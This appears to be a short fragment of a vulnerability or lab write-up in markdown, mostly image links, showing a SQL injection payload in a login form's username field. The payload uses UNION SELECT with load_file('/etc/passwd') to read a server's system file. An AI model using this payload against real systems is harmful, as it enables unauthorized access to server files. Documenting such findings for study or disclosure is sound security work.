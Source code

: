 ![image-20230108122739342](./images/image-20230108122739342.png)



check read file.

```bash
uname='+union+select+1,load_file('/etc/passwd'),3,4,5,6%3b--+-&password=password
```

![image-20230108123148627](./images/image-20230108123148627.png)
